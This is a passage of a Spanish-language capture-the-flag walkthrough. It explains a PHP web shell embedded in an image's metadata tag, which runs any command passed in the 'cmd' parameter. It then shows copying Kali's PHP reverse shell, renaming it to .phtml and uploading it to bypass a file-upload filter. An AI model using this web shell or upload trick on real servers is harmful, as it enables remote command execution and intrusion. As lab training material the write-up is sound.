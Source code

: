 2. `-DocumentName=`
- **Opción de Metadatos**: `-DocumentName` es un tag de metadatos que se está estableciendo en el archivo `imagen.jpg`.

3. `"<h1>Testing<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>"`
- **Valor del Metadato**: Este es el valor que se está asignando al tag `DocumentName`. Incluye HTML y PHP embebido:
  - `<h1>Testing<br>`: Un encabezado `<h1>` con el texto "Testing" seguido de un salto de línea (`<br>`).
  - `<?php ... ?>`: Código PHP embebido.
    - `if(isset($_REQUEST['cmd'])){...}`: Verifica si el parámetro `cmd` está presente en la solicitud.
    - `echo '<pre>';`: Abre un bloque `<pre>` para salida preformateada.
    - `$cmd = ($_REQUEST['cmd']);`: Asigna el valor del parámetro `cmd` a la variable `$cmd`.
    - `system($cmd);`: Ejecuta el comando del sistema almacenado en `$cmd`.
    - `echo '</pre>';`: Cierra el bloque `<pre>`.
    - `__halt_compiler();`: Detiene la ejecución del compilador PHP en este punto.
  - `</h1>`: Cierra el encabezado `<h1>`.

 4. `imagen.jpg`
- **Archivo Objetivo**: Este es el archivo de imagen al cual se le están agregando los metadatos.

![](/images/opacity/Pasted image 20240716145516.png)

Esta es mi primera opción, en caso de no funcionar, probare otras alternativas. Nuevamente ejecute el servidor HTTP con Python en mi Kali, e intente subir la imagen trojanizada:

![](/images/opacity/Pasted image 20240716150511.png)

Intente realizar este proceso durante repetidas ocasiones, pero cada que intentaba establecer la conexión, la imagen dejaba de esta en línea en el servidor.

![](/images/opacity/Pasted image 20240716150906.png)

por lo que opte por utilizar un archivo PHP con extensión JPG. Utilizare la Shell que ya tiene Kali, y le agregare la nueva extensión.

```sh
cp /usr/share/webshells/php/php-reverse-shell.php .
```

Luego modifique el nombre:

```sh
cp php-reverse-shell.php cmd.phtml
```

luego con nano `nano shell.phtml` modifique el archivo con los parámetros que requiero para entablar la conexión:

![](/images/opacity/Pasted image 20240716151914.png)

> **NOTA:** En algunas ocasiones me ha funcionado, tal cual está el documento, pero en esta ocasión, lo que hice fue colocar '4445' es decir el puerto entre comillas simples.

Y volví a intentar subir el archivo, iniciando nuevamente el servidor HTTP desde mi Kali con Python:
